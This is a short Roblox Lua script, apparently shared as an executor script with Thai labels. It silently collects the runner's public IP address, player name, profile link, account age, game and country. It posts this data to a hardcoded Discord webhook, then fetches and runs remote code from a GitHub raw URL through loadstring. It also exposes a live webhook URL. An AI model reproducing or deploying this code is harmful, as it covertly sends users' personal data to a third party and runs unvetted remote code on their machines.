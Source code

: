 local hwid = "ไม่ได้ดัก"
local excutorcheck = "ไม่ได้ดัก"
local ip = tostring(game:HttpGet("https://api.ipify.org", true))
local GetName = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local url = "https://discordapp.com/api/webhooks/869544310381637642/_Kcd3KukxHo1DholkDvyLVncGd5Pigw5uWU36wmJzVpa6HpSn5yXha8DuQBhteLDbpB6"local data = {
   ["content"]= " ",
   ["embeds"]= {
    {
      ["title"]= "มีคนรันสคริป",
      ["color"]= 16761344,
      ["fields"]= {
        {
          ["name"]= "Player Name",
          ["value"]= game.Players.LocalPlayer.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Player Profile",
          ["value"]= "https://www.roblox.com/users/"..game.Players.LocalPlayer.UserId.."/profile",
          ["inline"]= true
        },
        {
          ["name"]= "Account Ages",
          ["value"]= game.Players.LocalPlayer.AccountAge,
          ["inline"]= true
        },
        {
          ["name"]= "Excutor",
          ["value"]= excutorcheck,
          ["inline"]= true
        },
        {
          ["name"]= "Game Name",
          ["value"]= GetName.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Game Link",
          ["value"]= "https://roblox.com/games/"..game.PlaceId.."/",
          ["inline"]= true
        }
      },
      ["footer"]= {
        ["text"]= "IP : "..ip.."   |   HWID : "..hwid.."   |   ".."Country : "..game:GetService("LocalizationService"):GetCountryRegionForPlayerAsync(game.Players.LocalPlayer)
      }
    }
  },
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
loadstring(game:HttpGet("https://raw.githubusercontent.com/DevilXD99/-/main/README.md"))()
